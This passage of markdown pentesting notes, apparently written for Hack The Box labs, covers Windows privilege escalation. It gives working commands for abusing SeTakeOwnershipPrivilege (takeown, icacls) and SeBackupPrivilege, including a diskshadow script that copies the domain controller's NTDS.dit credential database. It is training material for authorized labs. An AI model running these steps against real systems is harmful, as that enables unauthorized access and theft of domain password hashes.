 - `whoami /priv` SeTakeOwnershipPrivilege should be listed  
![image](https://user-images.githubusercontent.com/96747355/163725780-10a9f805-e181-42af-afe3-8d28f2cc5648.png)  

#### Exploitation

- If necessary enable the privilege using [this script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) 
  - `Import-Module .\Enable-Privilege.ps1`
  - `.\EnableAllTokenPrivs.ps1`  
  ![image](https://user-images.githubusercontent.com/96747355/163725814-fde11deb-34a3-4c08-9c60-6313293833b1.png)  
- Take ownership of a flag using [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) ` 
- Check the change of ownership worked `PS C:\htb> Get-ChildItem -Path 'C:\Path\To\File' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}`
- Modify the file ACL with [icalcs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) `icacls 'C:\Path\To\File' /grant user:F`
- Use the file you have ownership now! :D
  
## Privesc via Group Privileges

### Backup Operators

#### SeBackupPrivilege

- This allows us to copy a file from a folder
- [Here](https://github.com/giuliano108/SeBackupPrivilege) is a poc to abuse this
  - We need to import the libs `Import-Module .\SeBackupPrivilegeUtils.dll` and `Import-Module .\SeBackupPrivilegeCmdLets.dll`
  - `whoami /priv` to check if we have the SeBackupPrivilege  
  ![image](https://user-images.githubusercontent.com/96747355/163727583-cecc0265-3eab-4caf-93b4-47d92842588b.png)  
  - It is disabled so we can enable it with `Set-SeBackupPrivilege`  
  ![image](https://user-images.githubusercontent.com/96747355/163727652-893533c0-1e31-4f8f-8519-fe9884fe5a01.png)  
- We can now copy protected files and then use them `Copy-FileSeBackupPrivilege 'c:\path\to\file\file.txt' .\file.txt` 

##### Copying NTDS.dit (for DC)

- This group will also let us logging in locally to a domain controller.
- NTDS is the active directory database it contains the ntlm hashes of all users and computers in the domain
- We can use [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) to make a copy of the drive `diskshadow.exe`  
```
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```
- Then we just need to copy it with the SeBackupPrivilege `Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\paht\to\destination\ntds.dit`
